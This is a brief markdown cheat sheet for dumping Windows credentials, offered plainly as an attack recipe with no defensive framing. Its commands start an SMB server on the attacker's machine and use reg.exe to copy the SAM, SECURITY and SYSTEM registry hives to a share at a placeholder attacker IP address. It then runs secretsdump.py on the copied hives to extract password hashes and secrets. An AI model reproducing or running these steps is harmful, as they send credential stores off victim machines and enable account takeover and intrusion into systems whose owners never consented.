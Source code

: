 # dumping Windows credentials

## 0. start an SMB server

```
$ cd /path/to/loot/hklm/
$ sudo smbserver.py hklm ./ -smb2support
...
```

## 1. download `SAM`, `SECURITY` and `SYSTEM` hives

```
> reg.exe save hklm\sam \\<attacker IP address>\hklm\sam
> reg.exe save hklm\security \\<attacker IP address>\hklm\security
> reg.exe save hklm\system \\<attacker IP address>\hklm\system
```

## 2. dump the secrets

```
$ cd /path/to/loot/hklm/
$ secretsdump.py -sam sam -security security -system system LOCAL
...
```
